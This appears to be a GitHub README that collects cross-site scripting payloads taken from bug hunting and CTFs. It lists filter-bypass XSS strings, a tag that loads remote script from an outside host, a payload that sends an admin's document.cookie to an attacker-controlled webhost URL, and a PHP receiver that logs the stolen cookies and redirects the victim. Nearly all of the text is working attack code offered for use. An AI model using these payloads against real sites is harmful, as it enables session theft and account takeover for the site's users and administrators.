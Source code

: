 # description
I found some useful payloads while bug hunting or playing some ctfs
so here it is !

## Payloads

for no closing script tags
><img src=no onerror=alert(1) foo=
><SCRIPT SRC=http://xss.rocks/xss.js?< B >

bypass basic filters to execute an alert box
>';">'>alert(String.fromCharCode(88,83,83))

without quotes and semicolons
><IMG SRC=javascript:alert('XSS')>

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

without any space

>"><img/src="x"/onerror=alert(99)>

steal admins cookie via reflect xss

><img src=x onerror=document.location='http://https://callmerat.000webhostapp.com/c.php?c='+document.cookie;'>
  
php file reciver
>
<?php


header('location:https://google.com');
$cookies=$_GET["c"];
$file=fopen('log.txt', 'a');
fwrite($file, $cookies . "\n\n");
?>
